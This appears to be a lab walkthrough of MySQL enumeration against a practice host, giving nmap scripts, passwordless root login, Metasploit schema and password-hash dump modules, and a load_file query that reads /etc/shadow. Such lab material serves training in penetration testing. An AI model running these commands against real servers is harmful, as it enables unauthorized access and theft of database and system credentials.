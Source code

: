 #### MySQL Basics

```bash
john@kali> ip a

# 1. What is the version of MySQL server?
john@kali> nmap 192.193.26.3 -sV

# 2. What command is used to connect to remote MySQL database?
john@kali> mysql -h 192.193.26.3 -u root

# 3. How many databases are present on the database server?
MySQL> show databases;

# 4. How many records are present in table “authors”? This table is present inside the “books” database.
MySQL> use books;
MySQL> select count(*) from authors;

# 5. Dump the schema of all databases from the server using suitable metasploit module?
john@kali> msfconsole
msf5> use scanner/mysql/mysql_schemadump
msf5> set rhosts 192.193.26.3
msf5> set username root
msf5> run

# 6. How many directories present in the /usr/share/metasploit-framework/data/wordlists/directory.txt, are writable? List the names.
msf5> use scanner/mysql/mysql_writable_dirs
msf5> set rhosts 192.193.26.3
msf5> set verbose false
msf5> set dir_list /usr/share/metasploit-framework/data/wordlists/directory.txt
msf5> set file_name test
msf5> run

# 7. How many of sensitive files present in /usr/share/metasploit-framework/data/wordlists/sensitive_files.txt are readable? List the names.


# 8. Find the system password hash for user "root".
MySQL> select load_file('/etc/shadow');

# 9. How many database users are present on the database server? Lists their names and password hashes.
msf5> use scanner/mysql/mysql_hashdump
msf5> set rhosts 192.193.26.3
msf5> set username root
msf5> run

# 10. Check whether anonymous login is allowed on MySQL Server.
john@kali> nmap 192.193.26.3 -p 3306 --script mysql-empty-password

# 11. Check whether “InteractiveClient” capability is supported on the MySQL server.
john@kali> nmap 192.193.26.3 -p 3306 --script mysql-info

# 12. Enumerate the users present on MySQL database server using mysql-users nmap script.
john@kali> nmap 192.193.26.3 -p 3306 --script mysql-users --script-args 'mysqluser=root'

# 13. List all databases stored on the MySQL Server using nmap script.
john@kali> nmap 192.193.26.3 -p 3306 --script mysql-databases --script-args 'mysqluser=root'

# 14. Find the data directory used by mysql server using nmap script.
john@kali> nmap 192.193.26.3 -p 3306 --script mysql-variables --script-args 'mysqluser=root'

```